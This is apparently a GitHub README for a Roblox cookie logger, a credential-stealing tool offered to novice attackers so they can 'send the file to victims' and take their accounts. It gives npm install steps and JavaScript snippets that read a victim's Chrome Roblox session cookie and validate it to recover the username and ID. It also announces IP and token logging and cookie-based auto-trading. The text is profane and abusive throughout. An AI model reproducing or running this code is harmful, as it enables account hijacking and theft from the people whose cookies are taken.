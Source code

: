 #updates
```Nim
1. [Added] Cookie Logging
2. [Added] Ip Logging
3. [coming soon] Might add the Auto Trade Via cookie method later on if i am not lazy
4. [coming soon] finish up the api
5. [coming soon] fuck ur mom obv
6. token logging for the weebs
```

# Cookie-Logger
I was bored and made this

sigh just a shitty cookie logger when i am done with exams and shit i'll make my own cookie logging api so u skids can send the file to victims and yoink their shit if u want this faster u can just go to https://skadaddle.cc/ might release it on there with a lot more features like token logging and etc

![](image.png)


# STEPS FOR SKIDS

Install these first

```
npm i github:ClockworkSquirrel/rbxcookie --no-optional
```
```
npm i noblox.js -g
```

# How the check if it works

a simple fucking way to check this shitty ass logger is by

```js
const ChromeCookie = new rbxcookie.Chrome()

async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    console.log(cookie)
}
skidcity()
```

Here is a more detailed explanation of validating the cookie u fucking dumbass roblox.js bs is automated so its easy af u stupid piece of shit

```js
async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    await cbx.setCookie(cookie)
    let user = (await cbx.getCurrentUser()).UserName
    let id = (await cbx.getCurrentUser()).UserID
    console.log(`Information on the person you logged\n User: ${user} - ID [${id}]`)
}
skidcity()
```

if u wanna say some fucking shit cuz u don't know how to run this shitty logger that won't even function right if u compile it just join our server from the website
# https://skadaddle.cc/
